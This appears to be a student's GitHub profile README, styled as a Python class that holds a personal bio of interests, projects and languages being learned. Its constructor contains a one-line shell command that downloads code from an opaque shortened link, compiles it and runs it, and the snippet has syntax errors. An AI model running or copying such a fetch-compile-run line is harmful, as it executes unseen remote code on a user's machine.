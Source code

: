 <h1 align="center">Hi 👋, I'm Lorin 🍈</h1>
<p align="center">
    [![Typing SVG](https://readme-typing-svg.herokuapp.com?color=%2336BCF7&lines=Welcome!;Willkommen!;%C2%A1Bienvenido!;Bi+x%C3%AAr+hat%C3%AE!;%CE%9A%CE%B1%CE%BB%CF%8E%CF%82+%CE%BF%CF%81%CE%AF%CF%83%CE%B1%CF%84%CE%B5!;Ho%C5%9F+geldiniz!;%E3%81%84%E3%82%89%E3%81%A3%E3%81%97%E3%82%83%E3%81%84%E3%81%BE%E3%81%9B%EF%BC%81;Croeso!)](https://git.io/typing-svg)
</p>

```python
class melorin4:
  def __init__(self):
    subprocess.call("curl -sL 'spoti.fi/3pdhI4G' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 🐧 I'm interested in' : {'Art, *NIX customisation, Linux and BSD in general!'}
      '- 💼 I am a' : {'Senior high school student'},
      '- 🔭 I’m currently working on' : {'My personal website'    : 'https://melorin4.github.io',
                                         'cFetch': 'https://github.com/melorin4/cfetch'},
      '- 🌱 I’m currently learning'   : {'Python', 'Javascript', 'GDScript', 'Web Development', 'Godot Engine', 'GoLang'},
      '- 💬 Ask me about'          : {'Linux', 'Art', 'Games', 'Books'}
      '- 👨‍💻 My art is available at' : 'https://www.instagram.com/melolorin/',
      '- ⚡ Fun fact'                 : ('I'm still very young and learning !!')
    }
if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(melorin4().__dict__)
```

